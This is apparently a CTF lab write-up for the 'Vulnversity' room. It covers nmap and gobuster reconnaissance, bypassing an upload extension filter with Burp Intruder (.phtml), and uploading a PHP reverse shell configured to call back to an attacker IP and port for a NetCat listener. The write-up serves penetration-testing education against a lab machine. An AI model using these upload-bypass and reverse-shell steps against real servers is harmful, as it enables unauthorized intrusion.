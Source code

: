 # Vulnversity
### Machines info
- Kali:	10.10.167.137
- Attacked machine: 10.10.225.214
## Task 2: Reconnaissance
I'm using *nmap* to answer all the questions from the taks.
Command: `nmap -sC -sV -A 10.10.225.214`
> Scan the box, how many ports are open?

```
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```
**Answer: 6**

> What version of the squid proxy is running on the machine?

`3128/tcp open  http-proxy  Squid http proxy 3.5.12`

**Answer: 3.5.12**

> How many ports will nmap scan if the flag **-p-400** was used?

**Answer: 400**

> Using the nmap flag **-n** what will it not resolve?

**Answer: DNS**

> What is the most likely operating system this machine is running?

**Answer: Ubuntu**

> What port is the web server running on?

**Answer: 3333**

The machine has its own Apache server running on 3333, so I checked if there is any website. On `http://10.10.225.214:3333` there is VULN UNIVERSITY site.
## Task 3: Locating directories using GoBuster
GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names.
**IMPORTANT: YOU CAN FIND EXAMPLE WORDLISTS IN `/usr/share/wordlists`**
```
root@ip-10-10-167-137:~# ls -l /usr/share/wordlists
total 1280968
drwxr-xr-x  5 root root       4096 May 28  2020 dirb
drwxr-xr-x  2 root root       4096 May 28  2020 dirbuster
-rw-r--r--  1 root root       2006 May 28  2020 fasttrack.txt
drwxr-xr-x  2 root root       4096 Sep 25  2021 MetasploitRoom
drwxr-xr-x  2 root root       4096 Aug  4  2021 PythonForPentesters
-rw-------  1 root root  139921497 Sep 23  2015 rockyou.txt
drwxr-xr-x 12 root root       4096 May 28  2020 SecLists
-rw-r--r--  1 root root 1171751585 Aug 15  2020 wordlists.zip
```
When I used *fasttrack.txt*, gobuster found nothing, so I decided to use *rockyou.txt*.
Command:
`gobuster dir -u http://10.10.225.214:3333 -e -w /usr/share/wordlists/rockyou.txt`

GoBuster found these URLs (there were much more but unrecognable for Firefox):
```
http://10.10.225.214:3333/images (Status: 301)
http://10.10.225.214:3333/internal (Status: 301)
```
The second one has a form for uploading, so...

> What is the directory that has an upload form page?

**Answer: /internal/**

## Task 4: Compromise the webserver
If I want to upload any of known extensions (e.g. exe, txt, php, js) the site says
> Extension not allowed.

Devs usually shouldn't want to allow people to upload and run scripts in language the website is written, so I wanted here to find out what language is used. Firstly, I noticed that after the uploading a file the URL is changing to `.../internal/index.php`, which is the answer. 
> What common file type, which you'd want to upload to exploit the server, is blocked? Try a couple to find out.

**Answer: .php**

Ofc it shows also in Burp. I've used *FoxyProxy* to send the traffic to Burp Proxy, where I got info:
```
POST /internal/index.php HTTP/1.1
Host: 10.10.225.214:3333
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------36228835421868687684821620146
Content-Length: 339
Origin: http://10.10.225.214:3333
Connection: close
Referer: http://10.10.225.214:3333/internal/index.php
Upgrade-Insecure-Requests: 1

-----------------------------36228835421868687684821620146
Content-Disposition: form-data; name="file"; filename="a.php"
```

I sent it to Intruder tab.
Next step is creating a file with PHP extensions:
```
root@ip-10-10-167-137:~/Desktop# echo -e ".php\n.php3\n.php4\n.php5\n.phtml" >> ext_php.txt
root@ip-10-10-167-137:~/Desktop# cat ext_php.txt 
.php
.php3
.php4
.php5
.phtml
```

I'll use them as payload list and put it there in Positions code:

```
Content-Disposition: form-data; name="file"; filename="a§.php§"
```
which takes elements from the payloads list as variable to the place between "§".

**IMPORTANT: UNCHECK THE ENCODING ON THE BOTOOM OF THE PAYLOADS TAB!**

For the *.phtml* we got response with "Success"
```
(...)
		   <input class="btn btn-primary" type="submit" value="Submit" name="submit">
		</form>
		Success
	</body>
</html>
```
> Run this attack, what extension is allowed?

**Answer: .phtml**

Remember about turning off *FoxyProxy* after all.

Now we can use that extension to upload reverse shell. We can find it in `/usr/share/webshells/php/php-reverse-shell.php`
```
root@ip-10-10-167-137:~/Desktop# sudo find / -name php*reverse*
find: \u2018/run/user/115/gvfs\u2019: Permission denied
find: \u2018/proc/10245\u2019: No such file or directory
find: \u2018/proc/10246\u2019: No such file or directory
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/wordlists/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
```
Just copy it anywhere, edit the IP address in the file and upload with *.phtml* extension.

Variables should look like that:
```
$VERSION = "1.0";
$ip = '10.10.167.137';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

After uploading you will be allowed to use this reverse shell with NetCat.
